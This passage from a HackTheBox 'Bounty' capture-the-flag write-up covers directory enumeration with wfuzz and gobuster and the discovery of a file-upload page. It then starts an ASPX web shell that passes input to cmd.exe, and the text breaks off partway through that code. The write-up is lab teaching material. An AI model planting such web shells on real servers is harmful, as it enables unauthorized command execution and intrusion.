 We open it on the browser and see what is being shown.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:31:03.png)

We look at the source code and find nothing

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:31:43.png)

Start enumerate it with `Gobuster` and `Wfuzz`

```sh
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://10.10.10.93/FUZZ
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2009:26:12.png)

We don't find anything useful, just the folder uploaded files, so it's a suggestion that we must find a place to upload files, so we try to bruteforce for aspx files, once it's Windows web (ISS)

```sh
gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x aspx
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:39:11.png)

We find two things interesting, the `transfer.aspx` and the folder `UploadedFiles`

We get in the `transfer.aspx` to see what is it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:40:18.png)

Great we found the place to upload files, and the directory that we can get it

We enter on the `UploadedFiles`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2002:41:56.png)

## Weak File Upload

Now we try to upload a file to see how it's working, if has any kind of bypass

Try to upload a `cmdaspx.aspx`

```aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
```